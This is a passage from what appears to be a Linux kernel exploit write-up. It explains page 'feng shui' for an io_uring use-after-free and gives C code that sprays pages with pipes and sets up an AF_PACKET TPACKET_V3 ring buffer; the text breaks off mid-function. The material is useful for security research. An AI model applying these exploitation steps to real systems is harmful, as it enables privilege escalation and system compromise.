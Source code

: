 ﻿
# Feng shui
In order to trigger the UAF we need two virtual pages mapped to the same physical address, we will then be able to UAF on the next physical pages (we actually only need one).

```c
	if (page_array[0] != page_array[ret - 1])
		goto err;

	/* ... */
	
	*pages = page_array;
	*npages = nr_pages;
	return page_to_virt(page_array[0]);
```

The setup we need is ideally 8 virtual pages mapped to 7 contiguous physical pages (+ the last one that physically overlaps with the first one).
We'll setup 8 pages because:
 - We need a power of 2
 - `sizeof(struct io_uring_sqe)` is way larger than `sizeof(struct io_uring_cqe)`, in order to control with ease the writes, 4 pages are not enough. (to UAF the CQ we need to consume a whole CQ page which corresponds to 4 SQ pages)

Because of the "split" nature of the buddy allocator, once a freelist is empty new pages will be reclaimed by splitting up higher order pages, thus creating a lot of contiguous pages we'll be ready to use.
So we just need to spray a lot of pages and consume the whole freelist.

```c
void  spray_n_pages(int  fds[][2], int  n){
	for (int  i=0; i<n; i++){
		pipe(&fds[i]);
		write(fds[i][1], "", 1);
		close(fds[i][0]); // don't waste fds
	}
}
```

Now we need to map user virtual pages to unmoveable physical pages; we will use a raw AF_PACKET socket using TPACKET_V3 with a custom RX ring buffer.

```c
void  socket_init_rx_ring(int  s, unsigned  int  block_size,
									unsigned  int  frame_size, unsigned  int  block_nr,
									unsigned  int  sizeof_priv,
									unsigned  int  timeout) {
	int  v  =  TPACKET_V3;
	setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));

	struct  tpacket_req3  req;
	memset(&req, 0, sizeof(req));
	req.tp_block_size  =  block_size;
	req.tp_frame_size  =  frame_size;
	req.tp_block_nr  =  block_nr;
	req.tp_frame_nr  = (block_size  *  block_nr) /  frame_size;
	req.tp_retire_blk_tov  =  timeout;
	req.tp_sizeof_priv  =  sizeof_priv;
	req.tp_feature_req_word  =  0;

	setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
}

int  setup_socket(unsigned  int  block_size, unsigned  int  frame_size,
									unsigned  int  block_nr, unsigned  int  sizeof_priv,
									int  timeout) {
```